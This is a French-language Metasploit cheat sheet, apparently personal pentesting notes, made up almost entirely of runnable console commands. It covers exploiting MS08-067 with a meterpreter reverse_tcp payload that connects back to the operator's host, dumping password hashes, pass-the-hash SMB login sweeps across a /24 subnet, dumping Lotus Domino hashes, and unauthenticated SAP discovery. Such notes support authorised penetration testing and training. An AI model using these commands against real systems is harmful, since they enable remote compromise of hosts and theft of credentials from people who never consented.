 ## metasploit

### db

```
db_status
db_import scan_syn_all_ports.xml
db_nmap -iL ips.txt …
hosts
services -u
creds
vulns
loots
```


### Modules

#### exploit/windows/smb/ms08_067_netapi

Particulièrement efficace si on trouve encore du Windows Server 2003.

```
use exploit/windows/smb/ms08_067_netapi
set rhost <victimIP>
set payload windows/meterpreter/reverse_tcp
set lhost <ourIP>
set lport 443
check
exploit -j -z
sessions -i
whoami
hashdump
```


#### smblogin

```
search smb
use auxiliary/scanner/smb/smb_login
show options
set SMBUser LocalAdmin
set SMBPass ab459302c0e103…<LM Hash>…323:19282b…<NT hash>…7e7w8
set RHOSTS 192.168.1.0/24
exploit
```

* `Could not connect` : l'hôte ne répond pas sur le port nécessaire ?
* `Correct credentials, but unable to login: 'WORKSTATION\LocalAdmin:<LM hash>:<NT hash>', Login Failed: The server responded with error: STATUS_TYPE_NOT_GRANTED (Command=115 WordCount=0)`: l'hôte répond mais n'autorise pas la connexion à distance avec un compte d'admin local ?
* `Failed: 'WORKSTATION\LocalAdmin:P@$$w0rd', Login Failed The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)`: l'hôte répond mais le mot de passe est incorrect ?


#### domino / lotus notes

Récupérer les versions sans compte :

```
use auxiliary/scanner/lotus/lotus_domino_version
set rhosts
set rport
set ssl
run
```

Dumper les hashes avec un compte :
Fonctionne si le names.nsf est accessible.
```
use auxiliary/scanner/lotus/lotus_domino_hashes
```


#### SAP

Modules intéressants sans compte :

```
use auxiliary/scanner/sap/sap_service_discovery
use auxiliary/scanner/sap/sap_icf_public_info
```



### add external scripts

```
$ pwd
/home/user/.msf4/modules/auxiliary/scanner/http
$ ls
juniper_scan.rb
```

Si un msfconsole est en cours, un coup de `reload_all` et le tour est joué !




